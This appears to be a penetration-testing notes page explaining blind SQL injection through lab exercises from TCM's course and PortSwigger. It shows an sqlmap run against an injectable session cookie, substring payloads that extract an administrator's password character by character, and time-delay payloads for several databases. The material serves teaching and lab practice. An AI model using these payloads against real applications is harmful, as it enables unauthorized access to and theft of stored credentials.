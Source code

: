 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Blind

{% hint style="info" %}
**Blind SQLi** occurs when an attacker cannot see the results of their queries directly but can infer information based on the application's behavior and responses.
{% endhint %}

## Boolean-based

{% hint style="info" %}
**Boolean-based SQLi** occurs when the attacker sends queries that return different responses based on a true/false condition, inferring information from the application's behavior.
{% endhint %}

### Headers

> _The example below is based on TCM's_ [_Practical Bug Bounty_](https://academy.tcm-sec.com/p/practical-bug-bounty) _course._

This time the application generates both a `POST` and a `GET` request. The former includes two parameters (`username` and `password`), but they don't appear to be vulnerable to SQLi. The latter does not contain any parameter, but we can search for other injection points.&#x20;

We are looking for points where the server might potentially process, such as the `User-Agent` and the `Cookie` headers. In this case, the `Cookie` header includes the `session` parameter and its value is certainly processed by the back-end (Figure 1).

<figure><img src="../../../../.gitbook/assets/web_sqli_blindBoolean_1.png" alt=""><figcaption><p>Figure 1: Inspecting potential SQLi positions.</p></figcaption></figure>

When testing the `session` parameter, we can see that we can alter the response's behavior (`Content-Length` differences) (Figure 2), but we don't get any data within the response like we did while testing the [In Band SQLi](in-band.md#basic-workflow); this is what makes it a Blind SQLi.

<figure><img src="../../../../.gitbook/assets/web_sqli_blindBoolean_2.png" alt=""><figcaption><p>Figure 2: Validating <code>sqlmap</code>'s findings.</p></figcaption></figure>

Passing the request to [`sqlmap`](../../../../tools/web/sqlmap.md), it confirms that the `session` cookie is indeed injectable, therefore, we can continue the testing process as we did in the [In Band](in-band.md#basic-workflow) section.

{% code overflow="wrap" %}
```bash
$ sqlmap -r get_request.txt --batch --dbms=MySQL --level 5 --technique=B --dbms=MySQL
<SNIP>

sqlmap identified the following injection point(s) with a total of 33 HTTP(s) requests:
---
Parameter: session (Cookie)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: session=6967cabefd763ac1a1a88e11159957db' AND 9499=9499-- UfuX
---
[12:37:03] [INFO] testing MySQL
[12:37:03] [INFO] confirming MySQL
[12:37:03] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: PHP 7.4.33, Apache 2.4.54
back-end DBMS: MySQL >= 8.0.0
```
{% endcode %}

### Conditional

> _The example below is based on PostSwigger's_ [_Blind SQL injection with conditional responses_](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses) _lab._

{% code overflow="wrap" %}
```sql
SELECT database(); -- test
SELECT substring(database(),1,1); -- t (position,length)
SELECT substring(database(),1,3); -- tes (position,length)
SELECT * FROM products WHERE name = 'Laptop' AND substring((SELECT password FROM users WHERE username='Jessamy'),1,1)>'m';
```
{% endcode %}

Burp's Active Scan identifies a potential SQLi flaw (Figure 3).

<figure><img src="../../../../.gitbook/assets/web_sqli_blind_1.png" alt=""><figcaption><p>Figure 3: Identifying &#x26; validating an SQLi vulnerability.</p></figcaption></figure>

We can send the two responses to Comparer and check what is the differs between them (Figure 4).

<figure><img src="../../../../.gitbook/assets/web_sqli_blind_2.png" alt=""><figcaption><p>Figure 4: Using Burp's Comparer to see what differs between the two responses.</p></figcaption></figure>

Now that we know that if our injected statement is `TRUE` we will get a `Welcome back!` message, we can use the `SUBSTRING` function and start enumerating the `administrator`'s password. We can do that efficiently by performing a Cluster bomb attack with Intruder (Figure 5).

{% code overflow="wrap" %}
```sql
' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/web_sqli_blind_3.png" alt=""><figcaption><p>Figure 5: Performing a Cluster bomb attack with Burp's Intruder.</p></figcaption></figure>

All we need to do now is to filter out the irrevelant responses and sort them by `Payload 1` (Figure 6).

<figure><img src="../../../../.gitbook/assets/web_sqli_blind_4.png" alt=""><figcaption><p>Figure 6: Enumerting the <code>administrator</code>'s password.</p></figcaption></figure>

{% hint style="info" %}
For performing the above task with a custom Python-based script, check the [Copy As Python-Requests](https://portswigger.net/bappstore/b324647b6efa4b6a8f346389730df160) Burp's extension.
{% endhint %}

## Time-based

{% hint style="info" %}
**Time-based SQLi** occurs when the attacker sends queries that introduce deliberate delays, inferring information based on the time it takes for the application to respond.
{% endhint %}

> _The example below is based on PostSwigger's_ [_Blind SQL injection with time delays_](https://portswigger.net/web-security/sql-injection/blind/lab-time-delays) _lab._

We can start by testing the time-based payloads found on [PortSwigger's SQLi cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet). using string concatenation (Figure 7).

<table><thead><tr><th width="184">Database</th><th>Payload</th></tr></thead><tbody><tr><td>Oracle</td><td><code>dbms_pipe.receive_message(('a'),10)</code></td></tr><tr><td>Microsoft</td><td><code>WAITFOR DELAY '0:0:10'</code></td></tr><tr><td>PostgreSQL</td><td><code>SELECT pg_sleep(10)</code></td></tr><tr><td>MySQL</td><td><code>SELECT SLEEP(10)</code></td></tr></tbody></table>

```sql
'+||pg_sleep(10)-- -;
```

<figure><img src="../../../../.gitbook/assets/web_sqli_blind_5.png" alt=""><figcaption><p>Figure 7: Successfully injecting a time-based payload.</p></figcaption></figure>

